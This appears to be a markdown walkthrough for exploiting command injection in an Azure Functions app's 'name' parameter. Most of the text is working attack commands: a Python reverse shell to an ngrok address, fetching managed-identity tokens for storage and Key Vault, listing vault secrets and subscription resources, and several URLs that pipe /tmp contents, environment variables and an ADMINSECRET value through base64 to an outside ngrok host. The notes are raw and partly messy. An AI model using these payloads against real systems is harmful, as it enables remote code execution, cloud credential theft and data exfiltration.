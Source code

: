 Getting a reverse shell to our function

### Set up ncat listener  

`nc -l 3006`

### Set up ngrok forwarder  

`ngrok tcp 3006`

### Send a request with exploit in username
You will need to edit the:  
1. Functions App Name
2. Function Name
3. Ngrok port


``` bash
https://<functionAppName>.azurewebsites.net/api/<functionName>?name=dean;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"0.tcp.ngrok.io\",<NGROK_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'
```

### Explore the file system  
```bash
#We're not in a TTY shell, so let's spawn one, this will help with enumeration
python -c 'import pty; pty.spawn("/bin/sh")'

#List the files in the filesystem
ls

# See what's in the /tmp/ directory, this is the only place we can write
ls /tmp/

# See what environment variables we have
env

# Look for MSI details
env | grep MSI 

# get JWT token for storage service from MSI
# further reading: https://techcommunity.microsoft.com/t5/Azure-Developer-Community-Blog/Understanding-Azure-MSI-Managed-Service-Identity-tokens-caching/ba-p/337406
curl -s -H "Secret: $MSI_SECRET" "$MSI_ENDPOINT?api-version=2017-09-01&resource=https://storage.azure.com/"
```

You can decode the JWT using a tool such as   
The decoded token looks something like this:  

```json
{
  "aud" : "https://storage.azure.com/",
  "iss" : "https://sts.windows.net/72f988bf-86f1-41af-91ab-2d7cd011db47/",
  "iat" : 1581421569,
  "nbf" : 1581421569,
  "exp" : 1581450669,
  "aio" : "42NgYMhza09atd3m+W4GlsojspLzAQ==",
  "appid" : "c7ad206c-1584-4e6d-b0e2-ba999d312046",
  "appidacr" : "2",
  "idp" : "https://sts.windows.net/72f988bf-86f1-41af-91ab-2d7cd011db47/",
  "oid" : "893645c7-e7fa-495f-8ade-d7bdd05efa25",
  "sub" : "893645c7-e7fa-495f-8ade-d7bdd05efa25",
  "tid" : "72f988bf-86f1-41af-91ab-2d7cd011db47",
  "uti" : "Q5pAPKv7gEO4k2Oh2oD1AA",
  "ver" : "1.0",
  "xms_mirid" : "/subscriptions/11111111-2222-3333-4444-55555555/resourcegroups/slssec/providers/Microsoft.Web/sites/slsSec"
}
```

### Get a Bearer token for the vault service (functions host)
```
curl -s -H "Secret: $MSI_SECRET" "$MSI_ENDPOINT?api-version=2017-09-01&resource=https://vault.azure.net" 
```

### Use the bearer token to list Vaults (attack machine)
```bash
export BEARER_TOKEN=<SET TOKEN VALUE>
export VAULT_NAME=<ENTER_KEY_VAULT_NAME>
curl -s -H "Authorization: Bearer $BEARER_TOKEN" "https://$VAULT_NAME.vault.azure.net/secrets?api-version=7.0"
```

### store the secretID as an environment variable  
```bash
export secretId=https://slsvault.vault.azure.net/secrets/ADMINSECRET/8df8b605444c44c69bf07cfb76e70f6e
```
### Store the key as an app setting, functions will use MSI to get this
```bash

```

curl -s -H "Authorization: Bearer $BEARER_TOKEN" "https://management.azure.com/subscriptions/8d3519e1-8089-4300-ab0b-bfeda0f9844c/resources?api-version=2018-02-14"


## Get reverse shell from name field.
```bash
http://localhost:4445/api/slsSec?name="dean;python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\%220.tcp.ngrok.io\%22,16571));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([\%22/bin/sh\%22,\%22-i\%22]);%27"
```

http://localhost:4445/api/slsSec?name=%22tele%20&&python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\%220.tcp.ngrok.io\%22,11315));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([\%22/bin/sh\%22,\%22-i\%22]);%27%22

http://localhost:4445/api/slsSec?name=%22sarah%20;echo%20\%22$(uname)\%22;%20curl%209b620615.ngrok.io?data=$(ls%20/tmp%20|%20base64)%22

python -c 'import os; os.environ.get('HOME')'

http://localhost:4445/api/slsSec?name=Sarah ; curl 209b620615.ngrok.io?data=$(python -c 'import os; os.environ.get('HOME')' | base64)


# This one works
### Lists out the files in /tmp
```bash
https://slssec.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%209b620615.ngrok.io?data=$(ls%20/tmp%20|%20base64%20--wrap=0)
```

### cat one of the files in /tmp
```bash
https://slssec.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%209b620615.ngrok.io?data=$(tail%20/tmp/Sarah%20|%20base64%20--wrap=0)
```

# This one works
### Lists out the environment variables
```bash
https://slssec.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%209b620615.ngrok.io?data=$(env%20|%20base64%20--wrap=0)
```

# This one works
### Gets value of ADMINSECRET
```bash
https://slssec.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%209b620615.ngrok.io?data=$(echo%20$ADMINSECRET%20|%20base64%20--wrap=0)
```

https://slssec.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%209b620615.ngrok.io?data=$(python%20-c%20'import%20os%20;%20os.environ'%20|%20base64%20--wrap=0)


